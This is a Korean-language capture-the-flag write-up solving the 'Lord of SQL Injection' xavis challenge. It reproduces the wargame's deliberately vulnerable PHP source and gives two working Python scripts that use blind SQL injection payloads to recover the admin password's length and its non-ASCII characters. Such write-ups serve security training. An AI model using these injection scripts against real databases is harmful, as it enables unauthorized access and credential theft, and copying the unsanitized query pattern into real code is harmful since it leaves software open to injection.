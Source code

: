 ## Lord of SQL Injection No. 19 - xavis
## 문제 출제 의도
1. Ascii범위를 벗어난 pw 값을 알아낼 수 있는지 확인한다.
2. pw 길이를 알아 낼 수 있는지 확인한다.
3. MYSQL AutoCasting을 이해하는지 확인한다.
## 소스 코드 분석
+ 소스코드
xavis의 소스코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    + 금지 문자열, 문자
        - Get 방식으로 받은 pw값에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
        - Get 방식으로 받은 pw값에 'regex','like'중 하나라도 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    + 문제 풀이 조건
        - 문제 풀이에 성공하는 GET방식으로 pw 값과 실제 id='admin'인 레코드의 pw 가 일치하고 그 값이 0이 아닐경우이다.
## 문제 해결
+ 필요 함수
    - ord
        + ord는 문자의 아스키 코드값을 리턴하는 함수이다
        + (※ ord 함수는 chr 함수와 반대이다.)
        ~~~
        >>> ord('a')
        97
        >>> ord('0')
        48
        ~~~
    - hex
        + hex(x)는 정수값을 입력받아 16진수(hexadecimal)로 변환하여 리턴하는 함수이다.
        ~~~
        >>> hex(234)
        '0xea'
        >>> hex(3)
        '0x3'
        ~~~
+ pw 길이
    - 지금까지와는 다르게 pw가 8이 아님으로 pw 길이를 알아내야 한다.
    - 이는 다음과 같은 코드를 작성하면 쉽게 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    i=1

    while i:
    url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="
    data = "' or id='admin' and length(pw)={}-- -".format(i)
    print (data)
    data = quote(data)

    re = urllib.request.Request(url + data)
    re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
    re.add_header("Cookie", "PHPSESSID=vt2ho6kvcu0hjgehmdmuj37qd1")
    res = urllib.request.urlopen(re)

    if  str(res.read()).find("Hello admin") != -1:
            print(i)
            break
    i+=1
    ~~~
    - 이는 결과적으로 40을 출력함으로 pw 의 길이는 40인것을 알 수 있다.

+ pw 값
    - pw길이만 다른 것을 빼면 지금까지와 별 다를 것이 없는 Blind SQL Injection 이라 할 수 있다.
    - 그러나 코드를 작성하여 풀어도 길이만 일치할 뿐 아무 값도 얻어내지 못한다는 사실을 알 수 있다.
    - 따라서 탐색 범위를 확장하여 다음과 같은 코드를 만들어 해결한다
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    hexcode = "0x"

    for i in range(1,41):
        for j in range(32, 1000):
            url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="#고정된 부분
            data = "' or id='admin' and ord(substr(pw, {}, 1))='{}'#".format(str(i), str(j))
            print(data)
            data = quote(data)

            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

            response = urllib.request.urlopen(re)

            if str(response.read()).find("Hello admin") != -1:
                key += chr(j) #찾은 문자를 추가함
                hexcode += hex(j)[2:] #0x를 잘라주기 위해 문자열을 슬라이스 했다.
                print('key : ' + key)
                print('hex : ' + hexcode)
                break
    print(key)
    ~~~
    - 이는 결과적으로 ¸ùÅ°ÆÐÄ¡¤»을 출력하는데 10자리 이후에서는 아무것도 탐색되지 않는다.
    - 이를 GET 방식으로 입력하면 문제가 해결된다.